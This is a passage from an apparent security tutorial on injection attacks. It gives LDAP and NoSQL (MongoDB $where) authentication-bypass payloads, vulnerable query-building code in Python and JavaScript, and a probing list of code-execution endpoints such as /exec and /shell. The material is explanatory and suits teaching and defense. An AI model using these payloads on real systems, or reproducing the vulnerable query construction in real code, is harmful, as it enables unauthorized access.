 **Attack payload:**
```python
"*)(uid=*))(|(uid=*"  # Always true condition
```

**Vulnerable code:**
```python
# Vulnerable LDAP query construction
username = request.form['username']
password = request.form['password']
ldap_query = f"(&(uid={username})(password={password}))"
```

**Attack:**
```
Username: admin*)(uid=*))(|(uid=*
Password: anything

Query becomes: (&(uid=admin*)(uid=*))(|(uid=*)(password=anything))
Result: Always returns true, bypasses authentication
```

#### **5. NoSQL Injection**

**What it is:**
NoSQL databases (MongoDB, CouchDB) can be vulnerable to injection attacks similar to SQL injection.

**Attack payload:**
```python
"'; return this.a == 'b' || true; var f='"
```

**Vulnerable code:**
```javascript
// MongoDB query construction (vulnerable)
const username = req.body.username;
const query = `this.username == '${username}'`;
db.users.find({$where: query});
```

**Attack:**
```javascript
Username: admin'; return true; var f='

Query becomes: this.username == 'admin'; return true; var f=''
Result: Always returns true, bypasses authentication
```

#### **Attack Methodology:**

#### **Step 1: Discovery**
```python
endpoints = ['/eval', '/exec', '/cmd', '/api/run', '/admin/execute', '/shell']
parameters = ['cmd', 'code', 'exec', 'eval', 'system', 'run']
```

The attack systematically tests:
- **Common endpoints:** Likely to have code execution
- **Parameter names:** Commonly used for dynamic execution
- **HTTP methods:** Both GET and POST requests

